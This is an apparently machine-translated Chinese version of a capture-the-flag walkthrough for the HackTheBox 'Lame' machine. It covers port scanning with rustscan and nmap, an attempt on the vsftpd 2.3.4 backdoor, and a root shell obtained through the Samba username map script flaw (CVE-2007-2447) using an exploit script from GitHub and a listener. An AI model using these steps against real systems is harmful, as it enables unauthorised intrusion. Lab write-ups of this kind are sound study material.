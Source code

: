 # 黑客盒子:蹩脚

> 原文：<https://infosecwriteups.com/hackthebox-lame-649ae6d39ac6?source=collection_archive---------3----------------------->

## 走查

嘿，伙计们，这一次我将从被认为是简单的 Linux 机器的 [Hackthebox](https://app.hackthebox.com/home) 开始。

事不宜迟，我们来开发一下。

![](img/0c649add20abf0af059dff40823b9164.png)

# 首字母:

```
export IP=10.129.99.7
```

## 端口扫描

```
rustscan -a $IP --ulimit 5000 | ports.txt
```

有三个开放的端口，即 21 (ftp)、22 (ssh)、139 (samba)

![](img/0e4471d37672a121a8274ec2a483d21d.png)

rustscan 结果

## nmap

```
nmap -sC -sV -p21,22,139 -oN namp $IP -Pn
```

![](img/850bc7f8927944576dfbbebc5d93b0d5.png)

nmap 结果

# 剥削

## 文件传送协议

我发现 ftp 允许匿名登录，所以我登录了 FTP 服务

```
ftp $IP
```

但是没有文件。

后来我检查了 **vsftpd 2.3.4** 漏洞，发现了一个名为“**后门**的漏洞。我使用了 Metasploit 和其他脚本，但未能获得会话/shell。

![](img/556160f8de410e3e801e4698e0d1fa26.png)

无法利用 FTP

后来我在模块描述中发现

> 该模块利用了添加到 VSFTPD 下载档案中的恶意后门。根据现有的最新信息，这个后门在 2011 年 6 月 30 日到 2011 年 7 月 1 日之间被引入 vsftpd-2.3.4.tar.gz 档案馆。这个后门在 2011 年 7 月 3 日被移除。

## 桑巴舞

因为 FTP 漏洞没有用，而且我没有 ssh 证书，所以我选择了 samba。有一个可写的共享名 tmp，其某些文件不可访问。

![](img/c93cd6de9712323d349aa797e630f094.png)

中小企业股份

发现 samba 名为“用户名映射脚本”命令执行的漏洞

我从[**GitHub**](https://github.com/amriunix/CVE-2007-2447) 拿到了漏洞利用脚本并修改了有效载荷(并添加了一些微调 XD)。

脚本的语法是

```
./username.py <rhosts> <rport> <lhost> <lport>
```

→启动监听器

→运行脚本

并以贝壳为根。不需要特权(:

# 证明

![](img/ce8cf0a5c26ca6eb21f9e710bfd1d04d.png)

用户和 root.txt

# 结尾部分

这就是这部机器的全部内容，我们将在下一篇博客中见面。再见，快乐黑客 o7